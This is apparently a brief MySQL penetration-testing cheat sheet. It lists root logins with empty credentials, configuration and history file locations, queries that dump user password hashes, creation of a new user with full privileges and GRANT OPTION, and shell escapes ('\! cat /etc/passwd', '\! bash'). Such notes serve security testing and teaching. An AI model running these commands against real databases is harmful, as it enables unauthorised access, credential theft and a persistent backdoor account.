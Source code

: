 # Connection tests
```
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
mysql -h <Hostname>
mysql -h <Hostname> -u ""@localhost
```

# Configuration files
```
windows

config.ini
my.ini
windows\my.ini
winnt\my.ini
<InstDir>/mysql/data/

UNIX

/etc/my.cnf
/etc/mysql/my.cnf
/var/lib/mysql/my.cnf
~/.my.cnf
/etc/my.cnf
```

Command history
```
~/.mysql.history
```

Log files:
```
connections.log
update.log
common.log
```

# Privilege Escalation

Current access level:
```
mysql>select user();
mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```

Access passwords:
```
mysql> use mysql
mysql> select user,password from user;
```

Create new user and grant permissions:
```
mysql>create user test identified by 'test';
mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```

Break into shell:
```
mysql> \! cat /etc/passwd
mysql> \! bash
```
